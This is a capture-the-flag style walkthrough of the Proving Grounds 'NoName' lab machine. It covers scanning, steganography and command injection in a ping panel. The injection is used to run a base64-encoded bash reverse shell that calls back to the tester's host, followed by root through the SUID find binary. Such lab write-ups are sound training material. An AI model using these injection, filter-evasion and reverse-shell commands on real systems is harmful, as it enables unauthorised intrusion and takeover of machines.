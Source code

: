 ```yaml
---
title: "Proving Grounds - NoName"
date: 2023-07-01 00:31:00 +0300
image: /assets/img/Posts/noname.png
categories: [Offensive security, Intermediate]
tags: [steganography, stegseek, ffuf, SUID, find, nmap, RCE, linux]
---
```


| **Room**   | **NoName**                          |
| ---------- | ----------------------------------- |
| Author     | **offensive-security**              |
| Difficulty | Intermediate                        |

> This is an intermediate machine in offensive security proving grounds testing on some simple streganography and basic enumeration skills.
{: .prompt-tip }

# Let's get started
## Scanning and enumeration
First thing first, we do a simple nmap scan from which we get only `port 80` open. The apache server running on this specific port seems a little outdated. It can a good thing to check if we miss anything to attack.

```shell
└─$ nmap -T4 -sCV 192.168.222.15   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-30 23:10 EAT
Nmap scan report for 192.168.222.15
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE   VERSION
23/tcp   filtered telnet
80/tcp   open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
1053/tcp filtered remote-as
3007/tcp filtered lotusmtap
7921/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.96 seconds
```
Opening the port, we get a `fake admin area` panel with an input field. It seemed to be a page where the admin can taste wether the machines are up by pinging them. Not here though, its fake, it time we find the real one.

![image](/assets/img/Posts/noname/fake-admin.png)

Whenever we get to a website, we are always recommended to brute force for hidden web directories in the server. We are going to use ffuf. It gives us `admin` directory.

![image](/assets/img/Posts/noname/admin.png)

Visiting the directory we find nothing but images. huh, steganograpphyyyy?? got myself wondering. well. Viewing the source code, we get to see that there are four of them with some `jpg` images among, them. EASY!!

![image](/assets/img/Posts/noname/admin-dash.png)

![image](/assets/img/Posts/noname/images.png)

Downloading them and starting checking for hidden messages in them, i get something in one of the files, which looks like user names. aaargh!

![image](/assets/img/Posts/noname/user.png)

```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ cat new.jpeg.out 
admin
Admin
root
admin1
msfadmin
Admin1
```

Checking on the next one, we find a base64 string, nice. 

![image](/assets/img/Posts/noname/bas64.png)

Decoding the string from our terminal using the command `echo "base64-string" | base64 -d`, We get another directory. Impressive!.

![image](/assets/img/Posts/noname/superadmin.png)

Visiting it, we get see the legit ping panel.

![image](/assets/img/Posts/noname/super-ping.png)

Seng a simple ping scan `ping <ip>` does not bring anything, using a pipe symbol `|`to chain the commands, and typing `whoami` returns `www-data`.

![image](/assets/img/Posts/noname/rce.png)

This means that we have `code executation`. with a well crafted payload, we can get a reverse shell on the box. Sending a simple revershell on the ping platform does not connect back which made me assume that there are some filtering on the commands are ran.

## Initial access
We get our one-liner bash revershell `bash -i >& /dev/tcp/192.168.45.205/1337 0>&1` and pass it through base64 to encode it.

![image](/assets/img/Posts/noname/bencode.png)

Then echo the base64 string and pipe it to base64 and decode it, then pipe the output to means which executes it. 
```bash
ping 192.168.45.205 | echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIwNS8xMzM3IDA+JjEK" | base64 -d | bash
```
We get a shell as `www-data`
```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ nc -nlvp 1337                                 
listening on [any] 1337 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.222.15] 49076
bash: cannot set terminal process group (905): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ 

```
## Upgrading the shell
Start by finding which python version is installed in the machine by running `which python3`. Followed by `python3 -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better-featured bash shell, then `export TERM=xterm` which gives us access to term commands. Then run `CTRL + z` to background the session and `stty raw -echo; fg` which turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes then finally `stty rows 38 columns 116`.
We now have a stable shell.

Going to the home directory, we find two users, `haclabs` and `yash`. Accessing `yash's` directory, we find our flag. 

```shell
www-data@haclabs:/home/yash$ ls -la
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jul  1 01:35 local.txt
www-data@haclabs:/home/yash$ cat local.txt
<redacted>
www-data@haclabs:/home/yash$ 
```
## Privilege escalation
Who is saying linpeas? Not now. First we need to some manual enumeration before we run linpeas. running a `sudo -l`, we are prompted to enter www-data password. That's a dead end, We then move on and check for any commands that have `SUID` bits set. And we get that we can run `find` as root.

![image](/assets/img/Posts/noname/suid.png)

We then check the command we can ran to abuse the permissions given to us in [GTFObins](https://gtfobins.github.io/) and get root's shell.

![image](/assets/img/Posts/noname/suid-gtfobins.png)

Running the command `find . -exec /bin/sh -p \; -quit` gives us a `#`shell.
```shell
www-data@haclabs:/tmp$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls
flag3.txt  proof.txt
# cat proof.txt
<redacted>
# 
```

I hope you enjoyed the write up!!. thank you 😁